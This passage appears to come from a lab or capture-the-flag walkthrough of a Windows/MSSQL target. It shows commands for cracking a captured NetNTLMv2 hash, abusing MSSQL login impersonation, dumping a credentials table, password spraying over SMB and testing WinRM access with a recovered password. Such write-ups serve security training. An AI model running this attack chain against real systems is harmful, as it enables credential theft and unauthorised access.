 ![image.png](image%2033.png)

What we captured is machine hash, the probability of that we are gonna crack it is very low, but I am gonna try it anyway.

```bash
hashcat -m 5600 sql.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2034.png)

**Impersonating Users**

Check which users we can impersonate:

```bash
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

![image.png](image%2035.png)

```sql
EXECUTE AS LOGIN = 'hrappdb-reader'
SELECT SYSTEM_USER
```

![image.png](image%2036.png)

Now I can use `hrappdb` database:

```sql
use hrappdb;
SELECT table_name FROM hrappdb.INFORMATION_SCHEMA.TABLES
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'sysauth';
SELECT * FROM hrappdb.dbo.sysauth
```

![image.png](image%2037.png)

**Password Spraying**

```bash
sudo nxc smb $IP -u users -p 'Untimed$Runny' --continue-on-success
```

![image.png](image%2038.png)

## Privileges as hrapp-service

Shell access check:

```bash
sudo nxc winrm $IP -u hrapp-service -p 'Untimed$Runny'
```

![image.png](image%2039.png)
